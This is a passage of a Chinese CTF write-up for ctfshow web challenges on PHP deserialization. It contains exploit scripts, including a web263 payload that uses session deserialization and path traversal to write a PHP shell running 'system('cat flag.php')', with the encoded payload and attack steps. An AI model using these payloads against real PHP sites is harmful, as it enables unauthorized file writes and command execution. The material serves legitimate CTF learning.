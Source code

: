 ```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='admin';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}
echo serialize(new message('1','2','fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck'))."<br>";
echo base64_encode(serialize(new message('1','2','fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck')));
```

## web263

/www.zip为网站源码

利用exp

```php
<?php
class User{
    public $username="admin/../../../../../../../../../../var/www/html/1.php";
    public $password="<?php system('cat flag.php');?>";
    public $status;

}
$a = new User();
$c =  "|".serialize($a);
echo urlencode(base64_encode($c));
```

```
fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1NDoiYWRtaW4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vdmFyL3d3dy9odG1sLzEucGhwIjtzOjg6InBhc3N3b3JkIjtzOjMxOiI8P3BocCBzeXN0ZW0oJ2NhdCBmbGFnLnBocCcpOz8%2BIjtzOjY6InN0YXR1cyI7Tjt9
```

之后大致说下解题步骤：
1.首先访问首页，获得 cookie，同时建立 session
2.抓包修改 cookie 为序列化字符串
3.访问 check.php，反序列化实现 shell 写入
4.访问1.php审查元素查看flag

## web265

```php
<?php

error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
```